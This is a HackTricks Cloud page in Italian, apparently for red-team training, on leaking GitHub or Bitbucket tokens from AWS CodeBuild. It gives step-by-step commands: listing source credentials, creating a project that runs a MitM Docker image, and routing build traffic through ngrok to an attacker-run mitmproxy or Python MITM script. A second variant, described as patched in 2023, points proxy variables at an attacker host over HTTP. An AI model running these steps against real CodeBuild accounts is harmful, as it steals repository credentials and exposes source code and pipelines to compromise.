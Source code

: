 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recupera i token configurati di Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali sorgente configurate che potresti leak:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine docker specifica** per eseguire la build del progetto.

A questo scopo potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Questa è un'immagine Docker molto basilare che imposterà le **variabili d'ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Questo ti permetterà di intercettare la maggior parte del traffico dell'host indicato in **`https_proxy`** e **`http_proxy`** e di fidarti del certificato SSL indicato in **`SSL_CERT_FILE`**.

1. **Crea e carica la tua immagine Docker MitM**
* Segui le istruzioni del repo per impostare il tuo indirizzo IP proxy e impostare il tuo certificato SSL e **costruire l'immagine docker**.
* **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
* Potresti usare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
* Una volta che hai costruito l'immagine Docker, **caricala su un repo pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
* Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno esistente.
* Imposta il progetto per utilizzare l'**immagine Docker precedentemente generata**.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM nel tuo host**

* Come indicato nel **repo di Github**, potresti usare qualcosa come:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versione di mitmproxy utilizzata era la 9.0.1**, è stato segnalato che con la versione 10 questo potrebbe non funzionare.
{% endhint %}

4. **Esegui la build e cattura le credenziali**

*   Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche dalla aws cli con qualcosa come

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Questa vulnerabilità è stata corretta da AWS in qualche momento della settimana del 20 febbraio 2023 (penso venerdì). Quindi un attaccante non può più abusarne :)**
{% endhint %}

Un attaccante con **permessi elevati in un CodeBuild potrebbe leakare il token di Github/Bitbucket** configurato o, se i permessi erano configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

* Un attaccante potrebbe aggiungere le variabili ambientali **http\_proxy** e **https\_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Poi, cambiare l'URL del repo github per utilizzare HTTP invece di HTTPS, ad esempio: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Poi, eseguire l'esempio base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ora un attaccante sarà in grado di utilizzare il token dal suo computer, elencare tutti i privilegi che ha e (ab)usare più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.
{% endhint %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
